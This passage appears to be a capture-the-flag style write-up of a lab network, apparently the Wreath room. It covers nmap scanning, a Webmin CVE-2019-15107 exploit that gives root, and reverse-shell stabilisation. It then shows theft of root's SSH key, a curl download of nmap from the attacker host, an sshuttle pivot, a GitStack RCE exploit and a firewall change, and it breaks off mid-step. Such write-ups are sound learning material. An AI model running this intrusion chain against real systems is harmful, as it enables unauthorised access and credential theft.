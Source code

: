 # - Nmap
````bash
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Issuer: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-08-04T20:20:25
| Not valid after:  2024-08-03T20:20:25
| MD5:   e0ad:f3df:443a:760b:1d19:4ff7:7860:2456
|_SHA-1: aa1e:ddc4:41cd:958c:8efd:53a3:f43c:eedc:26a3:b202
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 1E5A7939D17BBCA08F889CB5A6E49621
|_http-title: Login to Webmin
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
````
- - On exploring the website I found nothing.
- - On observing I got **Miniserv** running on port 10000 with a vulnerable version.
- - On googling I found [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) exploit.
````bash
└─$ python3 CVE-2019-15107.py 10.200.96.200

        __        __   _               _         ____   ____ _____                                                                                                                           
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|                                                                                                                          
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|                                                                                                                            
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___                                                                                                                           
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|                                                                                                                           
                                                                                                                                                                                             
                                                @MuirlandOracle                                                                                                                              
                                                                                                                                                                                             
                                                                                                                                                                                             
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.96.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                                                                                                                                           
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# whoami
root
````
- Next, is to stabilise the shell. To do so I got a reverse shell to my system using Netcat and run the following commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

ctrl+z

stty raw -echo;fg                                            
```
- Next for persistence, I cat the shadow file but was not able to crack the password.
- So, I copied the id_rsa file from the `/root/.ssh/` folder and paste it into my machine.
- Did `chmod +600 id_rsa` to get the field worked for ssh connections.
```bash
ssh -i id_rsa root@10.200.96.200
[root@prod-serv ~]# whoami
root
```
- Now, we have initial access to the machine. Let's do a quick transfer of the Nmap binary to the target and scan the network.
```bash
python -m http.server 80   # On the attacking machine

curl http://10.50.76.115/nmap -o nmap

 ./nmap -sn 10.200.96.0/24

Nmap scan report for ip-10-200-96-100.eu-west-1.compute.internal (10.200.96.100)
Host is up (0.00019s latency).
MAC Address: 02:87:9C:68:6C:41 (Unknown)
Nmap scan report for ip-10-200-96-150.eu-west-1.compute.internal (10.200.96.150)
Host is up (0.00016s latency).
MAC Address: 02:23:CB:7E:65:CD (Unknown)
Nmap scan report for ip-10-200-96-200.eu-west-1.compute.internal (10.200.96.200)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 4.93 seconds
```
- So, we found 2 machines in the internal network.
- Next, we have to make a reverse connection to the internal network, for this, we will use sshuttle with the private key.
```bash
sshuttle -r root@10.200.96.200 --ssh-cmd "ssh -i id_rsa" 10.200.96.0/24

c : Connected to server.
```
- On navigating to the webserver on port 80 I got a login interface.

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/4f4f269f-eac0-4853-b787-147a74d4f729)

- Default credentials didn't work. So I tried to search for the Gitstack exploit.
```bash
└─$ searchsploit gitstack                                           
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
GitStack - Remote Code Execution                                     | php/webapps/44044.md
GitStack 2.3.10 - Remote Code Execution                              | php/webapps/43777.py
```
- In exploit, I modified IP addres and run the command.

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/47489c47-0207-46ac-9582-1c37ec3c6ff2)

```bash
./43777.py

Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
--------------SNIP----------------
```
- Now I'm not able to get the reverse shell back to my system on trying to ping my IP address from the exploit script I was not able to communicate with my system.

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/079d72ab-6557-482f-8e40-48c83446eef1)

```bash
└─$ ./43777.py  
Ping statistics for 10.50.76.115:
    Packets: Sent = 3, Received = 0, Lost = 3 (100% loss),
```
- So, now I nned to open a port through ssh connections.
```bash
firewall-cmd --zone=public --add-port 15500/tcp
success
```
- Now, transfer netcat binary tothe target host and setup listener.
```bash
